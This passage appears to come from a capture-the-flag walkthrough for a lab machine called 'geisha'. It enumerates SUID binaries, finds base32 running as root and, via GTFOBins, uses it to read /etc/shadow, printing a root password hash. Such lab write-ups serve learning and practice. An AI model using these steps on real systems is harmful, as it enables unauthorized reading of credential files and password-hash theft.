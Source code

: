 ## Privilege Escalation

Checking suid permissions on the machine, we could find that we're able to run `/usr/bin/base32` as root.

```bash
geisha@geisha:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/base32 <---
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
geisha@geisha:~$
```

Let's search on [GTFOBins](https://gtfobins.github.io/gtfobins/base32/)

![katana](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/geisha/2.png)

We could read files as `root`, let's try this.

```bash
geisha@geisha:~$ base32 "/etc/shadow" | base32 --decode
root:$6$3haFwrdHJRZKWD./$LYiTApGClgwmFE3TXMRtekWpGOY6fSpnTorsQL/FBr9YdOW4NHMzYFkOLu8qJQVa1wqfEC3a.SZeTHIyEhlPF0:18446:0:99999:7:::
daemon:*:18385:0:99999:7:::
bin:*:18385:0:99999:7:::
sys:*:18385:0:99999:7:::
sync:*:18385:0:99999:7:::
games:*:18385:0:99999:7:::
man:*:18385:0:99999:7:::
lp:*:18385:0:99999:7:::
mail:*:18385:0:99999:7:::
news:*:18385:0:99999:7:::
uucp:*:18385:0:99999:7:::
proxy:*:18385:0:99999:7:::
www-data:*:18385:0:99999:7:::
backup:*:18385:0:99999:7:::
list:*:18385:0:99999:7:::
irc:*:18385:0:99999:7:::
gnats:*:18385:0:99999:7:::
nobody:*:18385:0:99999:7:::
_apt:*:18385:0:99999:7:::
```